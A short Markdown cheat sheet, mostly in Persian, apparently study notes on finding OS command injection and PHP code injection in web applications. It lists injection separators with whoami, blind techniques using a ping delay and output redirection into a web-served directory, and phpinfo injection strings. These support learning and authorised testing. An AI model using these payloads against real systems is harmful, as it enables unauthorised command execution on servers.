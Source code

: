 # Remote Command Execution

## Concept
- در بخش های زیر به دنبال این آسیب پذیری می گردیم :
  - انتخاب یک آیتم از درون dropdown box
    - باید برای تغییر این پارامتر و نیز مشاهده تاثیر در پاسخ، حتما از Burp استفاده کنیم
  - درون فیلدهای بخش ثبت نظرات که ممکن است از دستورات سیستمی برای پردازش اطلاعات کاربر (مانند ایمیل) استفاده شده باشد
    - هنگام استفاده از Burp باید حتما URL Encoding داشته باشیم (مثلا به جای فاصله از + استفاده کنیم)

## Payloads
```
;whoami
;%20whoami
&whoami
&&whoami
|whoami
||whoami
%0Awhoami
```

## Blind OS Command Injection
- Time delays : ```x||ping+-c+10+127.0.0.1||```
<p align="right">در این حالت پس از اجرای دستور فوق، 10 ثانیه طول می کشد تا response را در مرورگر مشاهده کنیم</p> 

- Output redirection : ```||whoami>/var/www/images/output.txt||```
<p align="right">عکس ها در مسیر فوق ذخیره شده اند، در این حالت، خروجی دستور در مسیر share شده ذخیره می گردد و بعدا می توانیم یکی از عکس های محصولات را باز کرده، سپس نام  فایل را با نام output.txt تغییر دهیم، تا نتیجه دستور را مشاهده کنیم</p>

- Out-of-band interaction : ``````
- Out-of-band data exfilteration : ``````

# Code Execution

## Payload
```
a";phpinfo();//
a".phpinfo();//
a);}phpinfo();//
```

## Sample PHP executable
- https://www.php.net/manual/en/function.shell-exec.php

